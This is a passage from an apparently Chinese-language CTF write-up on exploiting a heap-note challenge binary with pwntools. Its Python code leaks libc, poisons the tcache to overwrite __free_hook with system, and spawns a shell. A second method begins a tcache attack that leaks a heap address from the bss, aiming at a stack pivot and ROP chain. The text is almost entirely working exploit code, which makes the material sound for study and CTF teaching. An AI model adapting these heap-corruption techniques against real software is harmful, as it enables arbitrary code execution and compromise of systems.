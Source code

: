 ```python
def Exit():
  s.sendlineafter("> ", "6")

for i in range(16):  #0-15
  Add(chr(0x41+i)*8, 1)

# libc leak
Edit(0, "a"*0x28+p64(0x431), 1)
Delete(1) 
#gdb.attach(s)
Add("b", 2) # 15
List()
for i in range(2):
  s.recvuntil("Price: ")
libc_leak = int(s.recvuntil("\n"))
# libc_base = libc_leak - libc.sym.__malloc_hook - 0x70
# free_hook = libc_base + libc.sym.__free_hook
# system_addr = libc_base + libc.sym.system
libc_base = libc_leak - libc.symbols['__malloc_hook'] - 0x70
free_hook = libc_base + libc.symbols['__free_hook']
system_addr = libc_base + libc.symbols['system']
print "libc_leak =", hex(libc_leak)
print "libc_base =", hex(libc_base)

# tcache poisoning
Add("c", 3) #16
Delete(6) #15
Delete(1) #14
gdb.attach(s)
Edit(14, "d", free_hook)

# Write system address in __free_hook
Add("e", u64("/bin/sh\x00"))   # 14
Add("f", system_addr) # 15

# Start shell
Delete(14)

s.interactive()
```
## 利用方式2
另外一种利用方式是通过栈溢出方法，将栈迁移到堆上，ROP拿到shell。
首先利用tcache attack泄露heap address，主要利用堆溢出将chunk1的price字段覆盖为bss段地址（items14地址），使得堆申请到bss段，如下：
```python
for i in range(15): #0-14
  Add(chr(0x41+i)*8, i)

# tcache attack
Delete(2) 
Delete(1) 


# Heap Leak
Edit(0, "a"*0x28+p64(0x21)+p64(0x602100), 0) # modify 1st->fd = 0x602100(bss)

Add("a", 4) 
Add(p64(0x602100), 0x6020a0) # 12  malloc 0x602100   fd->0x6020a0(items12)

List()# leak address 0x6020a0 point to heap address(item0)
for i in range(13):
  s.recvuntil("Price: ")
heap_leak = int(s.recvuntil("\n"))
```